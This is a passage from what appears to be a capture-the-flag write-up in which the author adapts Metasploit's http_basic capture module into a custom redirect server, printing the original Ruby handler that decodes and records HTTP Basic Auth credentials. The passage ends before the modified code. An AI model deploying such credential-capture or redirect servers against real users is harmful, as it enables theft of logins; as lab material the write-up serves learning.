 Now I’ll start with another module that can listen on 443 and do a redirect, `auxiliary/server/capture/http_basic`.

```

root@parrot# cp /usr/share/metasploit-framework/modules/auxiliary/server/capture/http_basic.rb /root/.msf4/modules/auxiliary/server/jarmisRedirect.rb

```

This module has four functions:
- `initialize` - sets metadata
- `support_ipv6` - returns `false`
- `run` - sets variables and calls `exploit`
- `report_creds` - saves creds
- `on_request` - handles incoming HTTP(S) request

I’ll delete `report_creds` entirely. `on_request` is where I’ll do my redirect. Currently, it looks like:

```

  def on_request_uri(cli, req)
    if(req['Authorization'] and req['Authorization'] =~ /basic/i)
      basic,auth = req['Authorization'].split(/\s+/)
      user,pass  = Rex::Text.decode_base64(auth).split(':', 2)

      report_cred(
        ip: cli.peerhost,
        port: datastore['SRVPORT'],
        service_name: 'HTTP',
        user: user,
        password: pass,
        proof: req['Authorization']
      )

      print_good("HTTP Basic Auth LOGIN #{cli.peerhost} \"#{user}:#{pass}\" / #{req.resource}")
      if datastore['RedirectURL']
        print_status("Redirecting client #{cli.peerhost} to #{datastore['RedirectURL']}")
        send_redirect(cli, datastore['RedirectURL'])
      else
        send_not_found(cli)
      end
    else
      print_status("Sending 401 to client #{cli.peerhost}")
      response = create_response(401, "Unauthorized")
      response.headers['WWW-Authenticate'] = "Basic realm=\"#{@realm}\""
      cli.send_response(response)
    end
  end

```

I don’t need the auth check, so I’ll reduce it to just do a redirect as long as the `RedirectURL` is set:
